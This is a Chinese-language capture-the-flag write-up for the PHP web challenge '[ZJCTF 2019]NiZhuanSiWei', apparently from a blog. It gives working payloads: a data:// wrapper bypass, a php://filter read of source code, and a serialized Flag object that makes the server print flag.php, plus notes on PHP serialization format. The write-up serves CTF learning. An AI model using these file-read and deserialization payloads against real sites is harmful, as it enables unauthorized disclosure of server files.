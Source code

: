 ```yaml
---
title: "[ZJCTF 2019]NiZhuanSiWei"
date: 2020-05-12 21:19:21
tags: Web
---
```


# **[ZJCTF 2019]NiZhuanSiWei**

代码审计

![](21.png)

查看一下useless.php --只有注释信息 没有用



利用data协议绕过

将welcome to the zjctf写入

而data://协议允许读入

payload：

> text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=

到这里就不会了 只有看下wp了

正则判断里面是否有flag字符，如果没有的话，并运行指定文件。

利用filter来进行读取指定文件

payload：

> file=php://filter/read=convert.base64-encode/resource=useless.php

得到 base64解码

```php
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```

将flag调用，然后给里面file值赋值为flag.php。
序列化后传入password，应该就会出flag。

> O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}

三者结合

payload：

> ?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}

得到flag

知识点：

**序列号与反序列化**知识：

https://www.jianshu.com/p/631606cc5b76

https://www.cnblogs.com/20175211lyz/p/11403397.html

|      类型       |                           结构结构                           |
| :-------------: | :----------------------------------------------------------: |
| String(字符串)  |                        s:size:value;                         |
|  Integer(整型)  |                           i:value;                           |
| Boolean(布尔型) |                      b:value;(保存1或0)                      |
|      Null       |                              N;                              |
|    Array(列)    | a:size:{key definition;value definition;(repeated per element)} |
|     Object      | O:strlen(object name):object name:object size:{s:strlen(property name):property name:property definition;(repeated per property)} |

O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}

例如这里，O代表对象，4为对象长度，1代表有一个成员变量。